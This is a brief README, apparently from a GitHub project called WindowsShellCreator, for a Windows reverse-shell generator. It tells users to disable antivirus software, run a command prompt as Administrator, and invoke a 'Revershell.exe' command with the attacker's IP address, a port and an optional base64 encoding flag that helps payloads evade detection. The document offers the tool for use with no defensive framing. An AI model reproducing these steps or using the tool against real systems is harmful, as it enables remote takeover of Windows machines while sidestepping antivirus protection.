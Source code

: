 # WindowsShellCreator
### (Stable Release)

## How to Use ?
#### 1. Disable AntiVirus Software
#### 2. Download Zip File 
#### 3. Extract File
#### 4. Open CMD or Powershell as Administrator 
#### 5. type "Revershell.exe -H 'your device ip' -p 'Choose your port number' -b64 'y/n'"
### Note- You must specify whether you want base64 encoding via the ``` -b64 ``` flag.


